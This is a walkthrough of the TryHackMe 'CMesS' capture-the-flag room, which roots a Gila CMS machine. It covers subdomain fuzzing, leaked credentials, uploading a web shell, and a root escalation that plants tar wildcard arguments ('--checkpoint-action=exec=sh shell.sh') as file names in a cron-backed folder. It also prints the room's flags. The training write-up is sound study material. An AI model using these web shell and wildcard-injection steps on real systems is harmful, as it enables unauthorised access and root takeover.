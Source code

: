 # CMesS

"Can you root this Gila CMS box?"

An important instruction was to specify `cmess.thm` as a host entry for the machine IP. This perhaps was a hint to the first way in.

1. Recon showed just 22 and 80. I ran dirb, nikto and got a huge number of false positives, but no way in. The CMS, gila, had a couple of vulns but they all required access.

2. On the TryHackMe page the 'user flag' question has a hint, "Have you tried fuzzing subdomains?". I hadn't, and indeed haven't before. I figured I would try with wfuzz.

    The problem with subdomains is that in order to use them, I need to specify the host entry for them. With all but a very minimal set, that would be hundreds of entries: I can't just `wfuzz http://FUZZ.cmess.thm` for example. However, a host entry is equivalent to going to an IP and specifying a Host header, so this works:

    `wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt -H "Host: FUZZ.cmess.thm" 10.10.25.158`

    Running this, I got 200 ok codes for almost every entry. However, I was able to tell a difference via size:

    ```
    ...
    000000058:   200        107 L    290 W    3907 Ch     "announcements"
    000000178:   200        107 L    290 W    3874 Ch     "cm"
    000000190:   200        107 L    290 W    3898 Ch     "compressed"
    000000256:   200        30 L     104 W    934 Ch      "dev"
    000000196:   200        107 L    290 W    3895 Ch     "configure"
    000000204:   200        107 L    290 W    3889 Ch     "content"
    000000215:   200        107 L    290 W    3886 Ch     "cpanel"
    000000228:   200        107 L    290 W    3877 Ch     "cvs"
    ...
    ```

3. Setting up a host entry (could have also used curl with an explicit header) for `dev.cmess.thm`, going there returned a chat log:

    ```
    Development Log
    andre@cmess.thm

    Have you guys fixed the bug that was found on live?
    support@cmess.thm

    Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!
    support@cmess.thm

    Update! We have had to delay the patch due to unforeseen circumstances
    andre@cmess.thm

    That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.
    support@cmess.thm

    Your password has been reset. Here: KPFTN_f2yxe%
    ```

4. I was able to log in with `andre@cmess.thm` and `KPFTN_f2yxe%` via `/login` and got access to the admin panel.

5. Using the file manager, I was able to see the content of config.php, which included the db creds:

    ```
     array (
        'host' => 'localhost',
        'user' => 'root',
        'pass' => 'r0otus3rpassw0rd',
        'name' => 'gila',
    ),
    ```

    (this turned out to be useless as the only user in the db was one I already had and mysql wasn't running with suid or sudo)

6. I was also able to use the file manager to upload a web shell to the `/assets` dir (I used [p0wny shell](https://github.com/flozz/p0wny-shell)). I'm guessing this was the 'misconfigured htaccess' from the dev log, as the other directories have access files that prevent php from running but not assets (its .htaccess is blank). From this I discovered the following:

    - I was operating as `www-data`
    - There was nothing interesting in the website folders (which were `/var/www/html` and `/var/www/dev`)
    - The one home folder, `andre`, I couldn't access
    - `www-data` didn't have `sudo -l` access (at least without a password)
    - No obvious SUID executables
    - A *very* suspicious `andre_backup.tar.gz` existed under `/tmp`

7. I used a `nc listener` and `cat | nc` on the backup to get it back to my host for analysis. Probably unnecessary since it was in `tmp` - could have done this in place. After extracting it `gunzip out.tar.gz` followed by `tar -xvf out.tar` it contained `note`, whose content was:

    ```
    Note to self.
    Anything in here will be backed up!
    ```

    Interesting.

8. I catted /etc/crontab and found:

    ```
    */2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
    ```

    So this is possibly a path to root once I have control of that backup folder (and looks like an exploit of tar wildcard expansion, which I used in the `skynet` room)

9. I grabbed linpeas and ran it, and it identified under writable files a suspicious-looking file `/opt/.password.bak`. Catting that gave me:

    ```
    andres backup password
    UQfsdCB7aAP6
    ```

10. With this I ssh'ed in (dropping my reverse shells) and got the user flag, yus: `thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}`

11. I went into the backup folder, and used nano to put the same reverse shell line I had used before into a file called `shell.sh`. Then I created two more files with touch:

    ```
    touch ./--checkpoint=1
    touch ./--checkpoint-action=exec=sh\ shell.sh
    ```

12. Exiting ssh and starting a nc reverse listener, I waited. Momentarily I got my shell popped with root :) The final flag, under `/root/root.txt` was `thm{9f85b7fdeb2cf96985bf5761a93546a2}`
